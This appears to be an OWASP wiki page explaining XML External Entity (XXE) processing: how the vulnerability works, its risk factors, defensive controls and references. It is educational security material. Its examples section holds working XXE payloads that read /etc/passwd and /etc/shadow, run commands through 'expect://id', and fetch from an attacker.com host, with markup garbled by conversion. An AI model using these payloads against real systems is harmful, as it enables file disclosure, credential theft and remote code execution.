 ```yaml
---

layout: col-sidebar
title: XML External Entity (XXE) Processing
author: 
contributors: 
permalink: /vulnerabilities/XML_External_Entity_(XXE)_Processing
tags: vulnerability, XML External Entity (XXE) Processing
auto-migrated: 1

---
```


[Vulnerabilities Table of Contents](ASDR_TOC_Vulnerabilities "wikilink")

## Description

An <i>XML External Entity</i> attack is a type of attack against an
application that parses XML input. This attack occurs when <b>XML input
containing a reference to an external entity is processed by a weakly
configured XML parser</b>. This attack may lead to the disclosure of
confidential data, denial of service, server side request forgery, port
scanning from the perspective of the machine where the parser is
located, and other system impacts.

The [XML 1.0 standard](http://www.w3.org/TR/REC-xml/) defines the
structure of an XML document. The standard defines a concept called an
entity, which is a storage unit of some type. There are a few different
types of entities, [external general/parameter parsed
entity](http://www.w3.org/TR/REC-xml/#sec-external-ent) often shortened
to **external entity**, that can access local or remote content via a
declared system identifier. The system identifier is assumed to be a URI
that can be dereferenced (accessed) by the XML processor when processing
the entity. The XML processor then replaces occurrences of the named
external entity with the contents dereferenced by the system identifier.
If the system identifier contains tainted data and the XML processor
dereferences this tainted data, the XML processor may disclose
confidential information normally not accessible by the application.
Similar attack vectors apply the usage of external DTDs, external
stylesheets, external schemas, etc. which, when included, allow similar
external resource inclusion style attacks.

Attacks can include disclosing local files, which may contain sensitive
data such as passwords or private user data, using file: schemes or
relative paths in the system identifier. Since the attack occurs
relative to the application processing the XML document, an attacker may
use this trusted application to pivot to other internal systems,
possibly disclosing other internal content via http(s) requests or
launching a [CSRF](CSRF "wikilink") attack to any unprotected internal
services. In some situations, an XML processor library that is
vulnerable to client-side memory corruption issues may be exploited by
dereferencing a malicious URI, possibly allowing arbitrary code
execution under the application account. Other attacks can access local
resources that may not stop returning data, possibly impacting
application availability if too many threads or processes are not
released.

Note that the application does not need to explicitly return the
response to the attacker for it to be vulnerable to information
disclosures. An attacker can leverage DNS information to exfiltrate data
through subdomain names to a DNS server that he/she controls.

## Risk Factors

  - The application parses XML documents.
  - Tainted data is allowed within the system identifier portion of the
    entity, within the [document type
    declaration](http://www.w3.org/TR/REC-xml/#sec-prolog-dtd) (DTD).
  - The XML processor is configured to validate and process the DTD.
  - The XML processor is configured to resolve external entities within
    the DTD.

## Examples

The examples below are from [Testing for XML Injection
(OWASP-DV-008)](Testing_for_XML_Injection_\(OWASP-DV-008\) "wikilink").

### Accessing a local resource that may not return

**`<?xml``   ``version="1.0"``   ``encoding="ISO-8859-1"?>`
`<!DOCTYPE``   ``foo``   ``[` `<!ELEMENT``   ``foo``   ``ANY``   ``>`
`<!ENTITY``   ``xxe``   ``SYSTEM``   ``"file:///dev/random"``
 ``>]><foo>&xxe;</foo>`**

## Remote Code Execution

If fortune is on our side, and the PHP "expect" module is loaded, we can
get RCE. Let’s modify the payload

`'''`

<?xml version="1.0" encoding="ISO-8859-1"?>

'''

*`'``   ``<!DOCTYPE``   ``foo``   ``[``   ``<!ELEMENT``   ``foo``
 ``ANY``   ``>`*`'`
*`'``   ``<!ENTITY``   ``xxe``   ``SYSTEM``   ``"expect://id"``
 ``>]>`*`'`
` `*`'``   `<creds>*`'`
` `*`'``   `<user>`&xxe;`</user>*`'`
` `*`'``   `<pass>`mypass`</pass>*`'`
` `*`'``   `</creds>*`'`

### Disclosing /etc/passwd or other targeted files

`''' `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///etc/passwd>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///etc/shadow>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "`<file:///c:/boot.ini>`" >]>`<foo>`&xxe;`</foo>

` `

<?xml version="1.0" encoding="ISO-8859-1"?>

` <!DOCTYPE foo [  `
`   <!ELEMENT foo ANY >`
`   <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]>`<foo>`&xxe;`</foo>`'''`

## Related [Attacks](Attacks "wikilink")

  - [SQL Injection](SQL_Injection "wikilink")
  - [Blind SQL Injection](Blind_SQL_Injection "wikilink")

## Related [Vulnerabilities](Vulnerabilities "wikilink")

  - [Missing XML Validation](Missing_XML_Validation "wikilink")

## Related [Controls](Controls "wikilink")

Since the whole XML document is communicated from an untrusted client,
it's not usually possible to selectively
[validate](Input_Validation "wikilink") or escape tainted data within
the system identifier in the DTD. Therefore, the XML processor should be
configured to use a local static DTD and disallow any declared DTD
included in the XML document.

Detailed guidance on how to disable XXE processing, or otherwise defend
against XXE attacks is presented in the [XML External Entity (XXE)
Prevention Cheat
Sheet](XML_External_Entity_\(XXE\)_Prevention_Cheat_Sheet "wikilink").

## References

  - OWASP [XML External Entity (XXE) Prevention Cheat
    Sheet](XML_External_Entity_\(XXE\)_Prevention_Cheat_Sheet "wikilink")
  - [Timothy Morgan's 2014 Paper: XML Schema, DTD, and Entity Attacks -
    A Compendium of Known
    Techniques](http://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf)
  - [Precursor presentation of above paper - at OWASP AppSec
    USA 2013](http://2013.appsecusa.org/2013/wp-content/uploads/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf)
  - [CWE-611: Information Exposure Through XML External Entity
    Reference](http://cwe.mitre.org/data/definitions/611.html)
  - [CWE-827: Improper Control of Document Type
    Definition](http://cwe.mitre.org/data/definitions/827.html)
  - [Sascha Herzog's Presentation on XML External Entity Attacks - at
    OWASP AppSec
    Germany 2010](https://www.owasp.org/images/5/5d/XML_Exteral_Entity_Attack.pdf)
  - [PostgreSQL XXE
    vulnerability](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-3489)
  - [SharePoint and DotNetNuke XXE Vulnerabilities, in
    French](http://www.agarri.fr/kom/archives/2011/09/15/failles_de_type_xee_dans_sharepoint_et_dotnetnuke/index.html)
  - [XML Denial of Service Attacks and Defenses (in
    .NET)](http://msdn.microsoft.com/en-us/magazine/ee335713.aspx)
  - [Early (2002) BugTraq Article on
    XXE](http://www.securityfocus.com/archive/1/297714/2002-10-27/2002-11-02/0)

[Category:API_Abuse](Category:API_Abuse "wikilink")